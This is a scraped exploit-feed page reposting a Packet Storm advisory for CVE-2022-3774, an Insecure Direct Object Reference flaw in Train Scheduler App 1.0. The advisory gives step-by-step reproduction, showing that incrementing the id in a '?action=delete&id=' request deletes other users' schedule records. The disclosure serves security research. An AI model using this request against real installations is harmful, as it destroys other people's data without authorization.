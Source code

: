 ```yaml
---
title: Train Scheduler App 1.0 Insecure Direct Object Reference exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:169604&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-11-01
fetch_date: 2025-10-03T21:22:48.763542
---
```


# Train Scheduler App 1.0 Insecure Direct Object Reference exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Train Scheduler App 1.0 Insecure Direct Object Reference CVE-2022-3774

2022-10-31 | CVSS 7.7

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:169604
# Exploit Title: Train Scheduler App v1.0 - Insecure Direct Object Reference (IDOR) to "delete user id "
# Exploit Author: Rohit Sharma
# Vendor Name: oretnom23
# Vendor Homepage: https://www.sourcecodester.com/php/15720/train-scheduler-app-using-php-oop-and-mysql-database-free-download.html
# Software Link: https://www.sourcecodester.com/php/15720/train-scheduler-app-using-php-oop-and-mysql-database-free-download.html
# Version: v1.0
# Tested on: window, xampp ,apache

vulnerability description:- Train Scheduler App suffers from an Insecure Direct Object Reference (IDOR) vulnerability

Vulnerable Parameters:
action , id

how to reproduce this vulnerabilty:-
1:- host this web on local host
2:- go to this url http://127.0.0.1/train_scheduler_app/
3:- add random number to generate schedule list i creted alot list to testing this application
4:- go this url http://127.0.0.1/train_scheduler_app/?action=delete&id=5
5:- id parameter is vulnerbale for idor change this to increasing number to delet user schedule list 5>>6>>7>>8 etc
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)